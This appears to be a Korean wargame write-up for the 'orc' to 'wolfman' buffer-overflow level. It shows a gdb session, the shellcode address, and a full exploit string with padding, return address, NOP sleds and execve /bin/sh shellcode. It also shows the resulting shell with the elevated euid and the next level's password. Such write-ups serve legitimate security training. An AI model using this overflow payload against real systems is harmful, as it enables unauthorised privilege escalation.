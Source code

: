 ``` bash2
0x80485c8 <main+200>:	push   %eax
0x80485c9 <main+201>:	push   0x8048669
0x80485ce <main+206>:	call   0x8048410 <printf>
0x80485d3 <main+211>:	add    %esp,8
0x80485d6 <main+214>:	push   40
0x80485d8 <main+216>:	push   0
0x80485da <main+218>:	lea    %eax,[%ebp-40]
0x80485dd <main+221>:	push   %eax
0x80485de <main+222>:	call   0x8048430 <memset>
0x80485e3 <main+227>:	add    %esp,12
0x80485e6 <main+230>:	leave  
0x80485e7 <main+231>:	ret    
0x80485e8 <main+232>:	nop    
0x80485e9 <main+233>:	nop    
0x80485ea <main+234>:	nop    
0x80485eb <main+235>:	nop    
0x80485ec <main+236>:	nop    
0x80485ed <main+237>:	nop    
0x80485ee <main+238>:	nop    
0x80485ef <main+239>:	nop    
End of assembler dump.
(gdb) b *main+231
Breakpoint 1 at 0x80485e7
(gdb) r `python -c 'print "\xbf"*473'`
Starting program: /home/orc/wolfma2 `python -c 'print "\xbf"*473'`
옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜

Breakpoint 1, 0x80485e7 in main ()
(gdb) x/wx $esp
0xbffff94c:	0xbfbfbfbf
(gdb)
0xbffff950:	0xbfbfbfbf
```

쉘코드 시작 주소는 0xbffff950이다.

익스플로잇 코드는 다음과 같이 작성할 수 있다.

"A"*44 (dummy byte)
+"\x50\xf9\xff\xbf" (shellcode addr)
+"\x90"*200 (Nop Sled)
+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" (shellcode)
+"\x90"*200 (Nop Sled)

``` bash2
[orc@localhost orc]$ ~/wolfman `python -c 'print "A"*44+"\x50\xf9\xff\xbf"+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*200'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP?퓧???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h//shh/bin??S??柰
                                       ?????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????
bash$ id
uid=504(orc) gid=504(orc) euid=505(wolfman) egid=505(wolfman) groups=504(orc)
bash$ my-pass
euid = 505
love eyuna
```
